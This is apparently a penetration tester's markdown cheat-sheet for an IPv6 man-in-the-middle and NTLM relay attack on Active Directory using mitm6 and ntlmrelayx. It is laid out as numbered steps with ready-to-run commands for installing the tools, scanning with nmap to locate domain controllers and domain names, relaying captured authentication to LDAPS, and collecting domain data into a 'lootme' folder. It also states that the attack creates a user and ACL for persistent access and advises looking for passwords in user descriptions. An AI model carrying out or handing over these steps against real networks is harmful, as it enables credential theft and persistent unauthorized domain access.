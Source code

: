 mitim6 (search for dirk jan m)

# mitm6:
```
mitm6 -d (domain to attack like marvel.local)
then use:
ntlmrelayx.py -6 -t ldaps://192.168.57.140 -wh fakepad.marvel.local -l lootme
```



## IPv6: mitm6
1. install from github
```
cd /opt; git clone https://github.com/fox-it/mitm6.git; cd mitm6
```
2. get Domain Controller IP 
Domain controllers will show port 389 running the Microsoft Windows AD LDAP service:
```
nmap -p389 -sV <IP-range>           # faster but may not return results if the server is blocking pings
nmap -p389 -sV -Pn <IP-range>       # slower but more accurate
```
Expected Output:
```
PORT    STATE SERVICE VERSION
389/tcp open  ldap    Microsoft Windows Active Directory LDAP (Domain: MARVEL.local0., Site: Default-First-Site-Name)
MAC Address: CC:2F:71:3A:CE:3D (Intel Corporate)
Service Info: Host: HYDRA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```
OR:
```
nmap -p 389 -T4 -A -v --script ldap-rootdse <IP-range>
```
3. get Domain name using nmap
```
nmap --script smb-enum-domains.nse -p445 <host>
sudo nmap -sU -sS --script smb-enum-domains.nse -p U:137,T:139 <host>
```
OR:
```
nmap --script smb-os-discovery.nse -p445 127.0.0.1
sudo nmap -sU -sS --script smb-os-discovery.nse -p U:137,T:139 127.0.0.1
```

4. run mitm6
```
sudo python mitm6.py -d <domain>.local
```

5. run ntmlrelayx.py at the same time
Download from: https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/ntlmrelayx.py
```
ntmlrelayx.py -6 -t ldaps://<DC-IP> -wh fakewpad.<domain>.local -l lootme
```
6. check on results:
all captured info will be saved to lootme folder in the directory you ran this command. when someone logs in to a computer on the network this will try to create a user and acl for persistent access. 
```
firefox ./lootme/domain_users.html
```
Always check for passwords in the description. 

